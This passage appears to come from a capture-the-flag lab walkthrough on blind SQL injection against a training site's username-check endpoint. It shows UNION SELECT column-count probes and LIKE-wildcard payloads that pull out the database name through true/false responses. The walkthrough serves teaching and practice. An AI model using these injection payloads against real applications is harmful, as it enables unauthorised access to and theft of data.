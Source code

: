    ```
   ```
   https://website.thm/checkuser?username=admin123
   ```
   - You see `{"taken": false}`, meaning the username `admin123` **does not exist**.

2. **SQL Query Behind the Scenes**:
   The app is likely running an SQL query like this:
   ```sql
   SELECT * FROM users WHERE username = 'admin' LIMIT 1;
   ```
   - It checks if a user with the username `admin` exists in the `users` table.


### Performing SQL Injection:

#### Step 1: Finding the Number of Columns

The first step in many SQL injection attacks is to figure out **how many columns** the query is working with. This is done using the **`UNION`** statement, which allows you to combine the results of one query with another.

- You start with this payload:
   ```
   admin123' UNION SELECT 1;--
   ```
   - You inject `' UNION SELECT 1;--` to test if the query can combine with your malicious one.
   - The app responds with `{"taken": false}`, meaning it didn’t work. This tells you that there’s more than 1 column in the table.
   
- You then try:
   ```
   admin123' UNION SELECT 1,2;--
   ```
   - Again, `{"taken": false}`, meaning still not enough columns.
   
- Finally, you try:
   ```
   admin123' UNION SELECT 1,2,3;--
   ```
   - Now, you see `{"taken": true}`, meaning you’ve found the correct number of columns, which is **3**.

#### Step 2: Extracting the Database Name

Now that you know there are 3 columns, you can start trying to extract information from the database. To begin, you’ll try to **find the database name**.

- You use the `database()` function, which gives the name of the database. You craft your payload like this:
   ```
   admin123' UNION SELECT 1,2,3 WHERE database() like '%';--
   ```
   - The **`%`** symbol is a **wildcard** that matches any value, so this will always return true. You see `{"taken": true}`, confirming that the query works.

- You then modify the query to find out what the database name starts with. You try this:
   ```
   admin123' UNION SELECT 1,2,3 WHERE database() like 's%';--
   ```
   - If the app responds with `{"taken": true}`, this means the database name starts with `s`.
